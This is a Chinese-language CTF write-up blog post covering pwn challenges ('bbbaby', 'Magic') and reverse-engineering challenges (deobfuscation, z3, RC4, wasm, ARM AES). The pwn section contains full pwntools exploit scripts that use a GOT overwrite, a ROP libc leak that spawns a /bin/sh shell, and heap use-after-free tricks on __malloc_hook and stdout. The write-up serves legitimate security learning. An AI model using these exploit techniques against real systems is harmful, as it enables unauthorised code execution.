








[toc]

都是赛后写的，wtcl。

还是学到了很多。


# PWN

## bbbaby

思路：

-   有canary，使用sub_40086C覆盖canary为puts绕过
-   之后就是泄露libc，写rop链就好

先看下保护，只开了canary：

```sh
    gwt@ubuntu:~/Desktop$ checksec pwn1 
[*] '/home/gwt/Desktop/pwn1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

main

```c
    __int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  int v4; // [rsp+Ch] [rbp-114h]
  char v5[264]; // [rsp+10h] [rbp-110h] BYREF
  unsigned __int64 v6; // [rsp+118h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  sub_400766();
  puts("^_^");
  while ( 1 )
  {
    while ( 1 )
    {
      puts("your choice");
      v4 = input_fun();
      if ( v4 )
        break;
      sub_40086C("your choice", a2);
    }
    if ( v4 != 1 )
      break;
    sub_4008BB(v5);
  }
  return 0LL;
}
```

sub_40086C，直接往v0的地方(地址？)写入8字节内容:

```c
    void __fastcall sub_40086C()
{
  int v0; // [rsp+Ch] [rbp-4h]

  puts("address:");
  v0 = input_fun();
  puts("content:");
  read(0, v0, 8uLL);
}
```

sub_4008BB:

```c
    ssize_t __fastcall sub_4008BB(void *str)
{
  unsigned int nbytes; // [rsp+1Ch] [rbp-4h]

  puts("size:");
  nbytes = input_fun();
  puts("content:");
  return read(0, str, nbytes);
}
```

canary:

```sh
 Low Address |                 |
             +-----------------+
     esp =>  | local variables |
             +-----------------+
             |    buf[0-3]     |
             +-----------------+
             |    buf[4-7]     |
             +-----------------+
             |     canary      |
             +-----------------+
     ebp =>  |     old ebp     |
             +-----------------+
             |   return addr   |
             +-----------------+
             |      args       |
             +-----------------+
    High Address |                 |
```

覆写canary为puts

```sh
─────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────────────────────────────────────────
   0x40089f    cdqe   
   0x4008a1    mov    edx, 8
   0x4008a6    mov    rsi, rax
   0x4008a9    mov    edi, 0
   0x4008ae    mov    eax, 0
 ► 0x4008b3    call   read@plt <0x400610>
        fd: 0x0
        buf: 0x601020 —▸ 0x400606 (__stack_chk_fail@plt+6) ◂— push   1
        nbytes: 0x8
 
   0x4008b8    nop    
   0x4008b9    leave  
   0x4008ba    ret    
 
   0x4008bb    push   rbp
   0x4008bc    mov    rbp, rsp
─────────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp  0x7ffdb00bc120 ◂— 0x0
01:0008│      0x7ffdb00bc128 ◂— 0x601020226ef100
02:0010│ rbp  0x7ffdb00bc130 —▸ 0x7ffdb00bc260 —▸ 0x4009a0 ◂— push   r15
03:0018│      0x7ffdb00bc138 —▸ 0x400966 ◂— jmp    0x400939
04:0020│      0x7ffdb00bc140 ◂— 0x0
... ↓
───────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────────────────────
 ► f 0           4008b3
   f 1           400966
   f 2     7f4c384af840 __libc_start_main+240
```

```sh
    pwndbg> x/20gx 0x601020
0x601020:	0x00000000004005ec	0x00007f4c38586350
0x601030:	0x00007f4c384af750	0x00007f4c384fee80
0x601040:	0x00007f4c384c5e90	0x0000000000400656
0x601050:	0x0000000000000000	0x0000000000000000
0x601060:	0x000000deadffffcd	0x0000000000000000
0x601070:	0x0000000000000000	0x0000000000000000
0x601080 <stdout>:	0x00007f4c38854620	0x0000000000000000
0x601090 <stdin>:	0x00007f4c388538e0	0x0000000000000000
0x6010a0 <stderr>:	0x00007f4c38854540	0x0000000000000000
0x6010b0:	0x0000000000000000	0x0000000000000000
```

EXP:

```python
    from pwn import *

    p=process('./pwn1')
#p=remote('node4.buuoj.cn',27412)
    elf=ELF('./pwn1')
    context.log_level='debug'
    libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

    pop_rdi_ret=0x0000000000400a03

    p.sendlineafter('your choice','0')
# gdb.attach(p)
    p.sendlineafter('address:\n',str(0x601020))
    p.sendlineafter('content:\n',p64(elf.plt['puts']))

    p.sendlineafter('address:\n','-1')

    p.sendlineafter('your choice\n','1')


    p.sendlineafter('size:\n',str(0x200))
    payload = 'A'*0x110+'b'*8 + p64(pop_rdi_ret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(0x40090b)
    p.sendlineafter('content:\n',payload)
    p.sendlineafter('your choice\n','-1')


    puts=u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
    success('puts:'+hex(puts))
    libc_base=puts-libc.sym['puts']
    success('libc_base:'+hex(libc_base))


    sh=libc_base+libc.search('/bin/sh').next()
    system=libc_base+libc.sym['system']

    p.sendlineafter('your choice','0')
    p.sendlineafter('address:\n',str(0x601020))
    p.sendlineafter('content:\n',p64(elf.plt['puts']))
    p.sendlineafter('address:\n','-1')
    p.sendlineafter('your choice\n','1')
    p.sendlineafter('size:\n',str(0x200))
    p.sendlineafter('content:\n','A'*0x110+'b'*8+p64(0x4005d9)+p64(pop_rdi_ret)+p64(sh)+p64(system))
    p.sendlineafter('your choice\n','-1')
    p.interactive()
```

## Magic

64，无壳

看着比较麻烦，还是菜单的heap题。

其中的dword_202090为2，但是他并没有对index进行其他的操作，那么一直malloc(0)也是OK的，每次malloc的大小是固定的






有两个UAF，一个是edit，一个是delete


-   add：index必须小于2，且每次malloc为0x60
-   edit+print：存在uaf，并没有对index做检查
-   delete：只free了，并没有置零，存在uaf。

他在edit的输出的时候，会把其他的东西一并带出来，


有这么几种解法吧，一个是直接uaf写\_\_malloc_hook，onegadget：(不知道为啥是通不了，有时可以)

```python
add(0)
add(1)
edit(0,'a')
# gdb.attach(p)
libc_base=u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))-0x7f1df4510d61+0x7f1df414c000
success('libc_base:'+hex(libc_base))
delete(0)
edit(0,p64(libc_base+libc.sym['__malloc_hook']-0x23))
add(0)
add(1)
edit(1,'a'*0x13+p64(libc_base+0xf1247))
add(0)
p.interactive()
```

还有一种，因为前面已经将flag读进来了，直接泄露：

```python
# alloc
add(0)
add(0)
add(0)
add(0)
add(1)

# prepare for a fake 0x70 chunk
edit(1, flat([0, 0, 0, 0x71]))
dele(1)
dele(0)

# partial overwrite 
edit(0, "\xe0")
add(0)
add(0)

# leak flag
edit(0, "a"*0x50)

p.interactive()
```


```python
add(0)
base_addr = u64(('\x00' + edit(0, "a")[1:]).ljust(8, '\x00')) - 0x7ffff7dd1d00 + 0x7ffff7dd25dd
add(1)
delete(1)	
delete(0)	
add(0)
flag_addr = u64(('\x00' + edit(0, "a")[1:]).ljust(8, '\x00')) + 0x55c0b7554240 - 0x55c0b7554000
# print ">>>>>"+hex(flag_addr)

edit(1, p64(base_addr))
add(0)
add(0)


ru('Input your choice:') 
sd('2'+'\x00\x00\x00')
ru('Input the idx') 
sd(str(0)+'\x00\x00\x00')
ru('Input the Magic') 
sd('a' * (0x7ffff7dd2620 - 0x7ffff7dd25dd - 0x10) + p64(0xfbad1800) + p64(0) * 3 + p64(flag_addr))
ru('flag{') 
flag = 'flag{'+ru('}')

print flag
r.close()
```


# RE

## EasyRe

一开始知道是考的花指令，也自己手动去了一部分，但是发现太多了就放弃了，期间有观察到有一个神奇的字符串，看wp都说是flag，后来官方wp才知道是出题人忘去了。。。

最终要的就是这个函数：



进去之后发现不能直接f5，



是花指令没跑了。

    idc脚本：

```c
//IDC脚本
auto addr_start =0x007217A0;//函数起始地址
auto addr_end = 0x00721E58;//函数结束地址
auto i=0,j=0;
for(i=addr_start;i<addr_end;i++){
    if(Dword(i) == 0x1E8){
        for(j=0 ; j<6; j++,i++ ){
            PatchByte(i,0x90);
        }
        i=i+4;
        for(j=0 ; j<3; j++,i++ ){
            PatchByte(i,0x90);
        }
        i=i+10;
        for(j=0 ; j<3; j++,i++ ){
            PatchByte(i,0x90);
        }
        i=i+5;
        for(j=0 ; j<1; j++,i++ ){
            PatchByte(i,0x90);
        }   
        i=i+3;
        for(j=0 ; j<2; j++,i++ ){
            PatchByte(i,0x90);
        }     
        i--;    
    }
} 
```



    run后，选中按u（undefined），再在开头按p建（Create Function）：



接下来就是z3解了：

```python
#python
from z3 import *

#提取出v4的数据
v4 = [0x271e150c,0x3b322920,0x5f564d44,0x736a6158,0x978e857c,0xaba29990,0xcfc6bdb4,0xe3dad1c8,]

v5 = [0,0,0,0,0,0,0,0]

#main函数中用于比较的数据
data = [0x0EEE8B042,0x57D0EE6C,0x0F3F54B32,0x0D3F0B7D6,0x0A61C389,0x38C7BA40,0x0C3D9E2C,0x0D64A9284]


x0=BitVec('x0',32)
x1=BitVec('x1',32)
x2=BitVec('x2',32)
x3=BitVec('x3',32)
x4=BitVec('x4',32)
x5=BitVec('x5',32)
x6=BitVec('x6',32)
x7=BitVec('x7',32)

s = z3.Solver()

print(type(x1))

v5[0]=x0^v4[2]
v5[1]=x1^v4[1]
v5[2]=x2^v4[0]
v5[3]=x3^v4[7]
v5[4]=x4^v4[6]
v5[5]=x5^v4[5]
v5[6]=x6^v4[4]
v5[7]=x7^v4[3]

for i in range(8):
    v5[i] ^= (v5[i] << 7)
    v5[i] ^= v4[(i*7+3)%8]
    v5[i] ^= v5[(i*5+3)%8]
    v5[i] ^= (v5[i]<<13)
    v5[i] ^= v4[(i*7+5)%8]
    v5[i] ^= (v5[i]<<17)
    
print(v5[0])
s.add(data[0]==v5[0],
data[1]==v5[1],
data[2]==v5[2],
data[3]==v5[3],
data[4]==v5[4],
data[5]==v5[5],
data[6]==v5[6],
data[7]==v5[7],
)
print(s.check())

print(s.model())
```

out:

```
[x1 = 828781622,
x7 = 943285560, 
x0 = 1630954594, 
x3 = 909140836, 
x5 = 1633759329, 
x4 = 825516597, 
x6 = 879047012, 
x2 = 862085687]
```

然后就是int转chr：

```python
#python
x1 = 828781622
x7 = 943285560
x0 = 1630954594
x3 = 909140836
x5 = 1633759329
x4 = 825516597
x6 = 879047012
x2 = 862085687


def IntToChar( x ):
    for i in range(4):
        a = x%0x100
        print(chr(a),end='')
        x = x//0x100
IntToChar(x0)
IntToChar(x1)
IntToChar(x2)
IntToChar(x3)
IntToChar(x4)
IntToChar(x5)
IntToChar(x6)
IntToChar(x7)
```

## findme

看wp说是RC4，简单了解了下：

分三步：

1.  初始化状态向量S和暂时向量T，长度都为256
2.  初始排列S
3.  产生密钥流k[]

重要的其实就是第一个函数：


乍一看第二个函数时strcmp，其实不是，在第一个函数内部已经改了，改为RC4了。






    key也知道，直接在线解就ok


## Eat_something

> wasm逆向
>
>   参考：
>
>      https://xz.aliyun.com/t/5170
>
>      https://www.52pojie.cn/thread-1438499-1-1.html
>

```
    git clone --recursive https://github.com/WebAssembly/wabt
```

```sh
sudo apt install cmake

$ cd wabt
$ mkdir build
$ cd build
$ cmake .. -DBUILD_TESTS=OFF
$ cmake --build .
```

本地环境搭建了半天，搭建好了但是不太会用。。。直接用的现成的工具：

meminit：


到这里看不下去了，关键代码有点看不懂：

> 核心算法就是这一句`v13 != (i32_load(w2c_memory, v16 + 12LL) ^ (2 * v10))`
>
> 翻译下就是`enc[i] != i ^ (flag[i] * 2)`

之后的就好做了。


## power

    arm汇编

安装：

```sh
sudo apt-get install gcc-arm-linux-gnueabi

arm-linux-gnueabi-as power -o power.o
```

提示很清楚了aes：


显示是cbc其实是ecb：


最近会大力复现之前比赛的wp。

>   参考:
>
>   -   https://wp.n03tack.top/posts/14620/#Pwn
>   -   https://www.cnblogs.com/LynneHuan/p/15522466.html?continueFlag=9efa2d1c6fec8469bacde1d08e042fa4
>   -   canary绕过姿势：https://xz.aliyun.com/t/4657#toc-3
>   -   https://song-10.gitee.io/2020/01/01/pwn-2020-01-01-pwn-canary/
>   -   https://xz.aliyun.com/t/5170
>   -   https://www.52pojie.cn/thread-1438499-1-1.html